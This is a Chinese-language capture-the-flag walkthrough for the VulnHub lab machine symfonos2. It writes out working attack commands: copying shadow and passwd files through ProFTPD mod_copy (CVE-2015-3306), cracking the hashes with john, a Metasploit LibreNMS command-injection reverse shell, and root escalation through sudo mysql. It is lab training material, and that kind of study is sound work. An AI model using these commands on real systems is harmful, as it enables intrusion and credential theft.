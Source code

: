 # symfonos2-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-2,331/

**Description**

OSCP-like Intermediate real life based machine designed to teach the importance of understanding a vulnerability. SHOULD work for both VMware and Virtualbox.

**知识点**
- smb 信息探测
- CVE-2015-3306
- CVE-2018-20434
- shadow 密码爆破

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.149` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.149
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/2.png)

21、22、80、139、445

怎么又有 smb,枚举下 smb 试试
```bash
enum4linux 192.168.141.149
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/3.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/4.png)

找到一个 `/anonymous` 文件夹和 2个用户,进去看看文件
```bash
smbclient //192.168.141.149/anonymous -U % -N
ls
cd backups\
ls
get log.txt
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/5.png)

查看下 log.txt 可以发现很多线索

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/6.png)

开头告诉你 shadow 内容在 backups 目录下,然后后面是 smb 的配置,有个密码

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/7.png)

然后开始看 ftp 的配置,配置文件说明了是 ProFTPD 程序，还告诉你有个 aeolus 账号

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/8.png)

想起来之前 nmap 扫描 FTP 得到的版本号是 1.3.5,也许可以找找漏洞
```bash
searchsploit -w proftpd 1.3.5
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/9.png)

这3个都一样,漏洞编号为 CVE-2015-3306,但是这个漏洞只是可以复制文件,并不能直接进行命令执行,并且需要知道目标路径

---

# 中期-漏洞利用

这里我们从 log.txt 中可以得知 anonymous 用户的实际路径为 `/home/aeolus/share`,加上开头告诉你 shadow 文件在 backup 目录下,接下来就尝试将 backup目录下的 shadow 复制到 anonymous 用户目录下

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/10.png)

```bash
ftp 192.168.141.149
site cpfr /var/backups/shadow.bak
site cpto /home/aeolus/share/shadow.txt
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/11.png)

成功了,上 smb 下载下来
```bash
smbclient //192.168.141.149/anonymous -U % -N
ls
get shadow.txt
exit
cat shadow.txt
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/12.png)

下面用同样的方式下载 passwd 文件
```bash
ftp 192.168.141.149
site cpfr /etc/passwd
site cpto /home/aeolus/share/passwd.txt

smbclient //192.168.141.149/anonymous -U % -N
get passwd.txt
exit

mkdir /root/.john
cp passwd.txt /root/.john
cp shadow.txt /root/.john
cd /root/.john
unshadow passwd.txt shadow.txt > hash.txt
cat hash.txt
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/13.png)

使用 john 开始跑 hash
```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/14.png)

只跑出 aeolus 一个用户的密码,使用这个凭证成功 SSH 上去
```
aeolus  sergioteamo
```

找找提权的可能
```bash
uname -a
sudo -l
find / -perm -u=s 2>/dev/null
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/15.png)

没成功,看看 web 方面

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/16.jpg)

又是啥都没有,直接翻 web 配置文件看看
```bash
cd /etc/apache2
cat apache2.conf
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/17.png)

看看这个端口监听文件
```bash
cat ports.conf
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/18.png)

端口 8080 有个无法从外部访问的网站,端口转发一下
```bash
socat TCP-LISTEN:5000,fork,reuseaddr tcp:127.0.0.1:8080
```

现在 8080 可以通过 5000 端口访问

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/19.png)

找找有没有可利用的漏洞
```bash
searchsploit -w librenms
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/20.png)

看了下,需要认证,结果用 aeolus  sergioteamo 可以登上去,那就用 msf 模块试试

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/21.png)

```bash
msfconsole
search librenms
use exploit/linux/http/librenms_addhost_cmd_inject
set RHOST 192.168.141.149
set LHOST 192.168.141.134
set PORT 5000
set USERNAME aeolus
set PASSWORD sergioteamo
run
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/22.png)

---

# 后期-提权

寻找提权利用点
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/23.png)

可以在 gtfobin 找到 mysql 提权的方法 https://gtfobins.github.io/gtfobins/mysql/
```
sudo mysql -e '\! /bin/sh'
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos2/24.png)

提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup
